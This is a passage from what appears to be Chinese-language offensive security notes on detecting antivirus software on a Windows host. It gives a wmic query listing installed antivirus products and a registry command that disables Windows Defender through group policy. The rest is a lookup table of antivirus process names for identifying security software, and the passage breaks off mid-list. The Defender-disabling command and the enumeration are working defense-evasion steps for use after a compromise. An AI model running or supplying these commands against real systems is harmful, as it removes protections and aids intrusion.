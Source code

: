 ### 杀软查询

- ```
    wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName,productState,pathToSignedProductExe | findstr /V /B /C:displayName || echo No Antivirus installed
    ```

- ```
    组策略关闭Defender
    reg add "HKEY_LOCAL_MACHINE\\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD
    ```
    
- 常见杀软进程

    - ```
        {"360tray.exe",    "360安全卫士"},
        {"360sd.exe",      "360杀毒"},
        {"a2guard.exe",    "a-squared杀毒"},
        {"ad-watch.exe",    "Lavasoft杀毒"},
        {"cleaner8.exe",    "The Cleaner杀毒"},
        {"vba32lder.exe",    "vb32杀毒"},
        {"MongoosaGUI.exe",    "Mongoosa杀毒"},
        {"CorantiControlCenter32.exe",    "Coranti2012杀毒"},
        {"F-PROT.EXE",    "F-PROT杀毒"},
        {"CMCTrayIcon.exe",    "CMC杀毒"},
        {"K7TSecurity.exe",    "K7杀毒"},
        {"UnThreat.exe",    "UnThreat杀毒"},
        {"CKSoftShiedAntivirus4.exe",    "Shield Antivirus杀毒"},
        {"AVWatchService.exe",    "VIRUSfighter杀毒"},
        {"ArcaTasksService.exe",    "ArcaVir杀毒"},
        {"iptray.exe",    "Immunet杀毒"},
        {"PSafeSysTray.exe",    "PSafe杀毒"},
        {"nspupsvc.exe",    "nProtect杀毒"},
        {"SpywareTerminatorShield.exe",    "SpywareTerminator杀毒"},
        {"BKavService.exe",    "Bkav杀毒"},
        {"MsMpEng.exe",    "Microsoft Security Essentials"},
        {"SBAMSvc.exe",    "VIPRE"},
        {"ccSvcHst.exe",    "Norton杀毒"},
        {"QQ.exe",    "QQ"},
        {"f-secure.exe",    "冰岛"},
        {"avp.exe",        "卡巴斯基"},
        {"KvMonXP.exe",    "江民杀毒"},
        {"RavMonD.exe",    "瑞星杀毒"},
        {"Mcshield.exe",   "麦咖啡"},
        {"egui.exe",       "NOD32"},
        {"kxetray.exe",    "金山毒霸"}, 
        {"knsdtray.exe",   "可牛杀毒"},
        {"avcenter.exe",   "Avira(小红伞)"},
        {"ashDisp.exe",    "Avast网络安全"}, 
        {"rtvscan.exe",    "诺顿杀毒"}, 
        {"ksafe.exe",      "金山卫士"}, 
        {"QQPCRTP.exe",    "QQ电脑管家"},
        {"Miner.exe",    "流量矿石"},
        {"AYAgent.aye",    "韩国胶囊"},
        {"patray.exe",    "安博士"},
        {"V3Svc.exe",    "安博士V3"},
        {"avgwdsvc.exe",    "AVG杀毒"},
        {"ccSetMgr.exe",    "赛门铁克"},
        {"QUHLPSVC.EXE",    "QUICK HEAL杀毒"},
        {"mssecess.exe",    "微软杀毒"},
        {"SavProgress.exe",    "Sophos杀毒"},
        {"fsavgui.exe",    "F-Secure杀毒"},
        {"vsserv.exe",    "比特梵德"},
        {"remupd.exe",    "熊猫卫士"},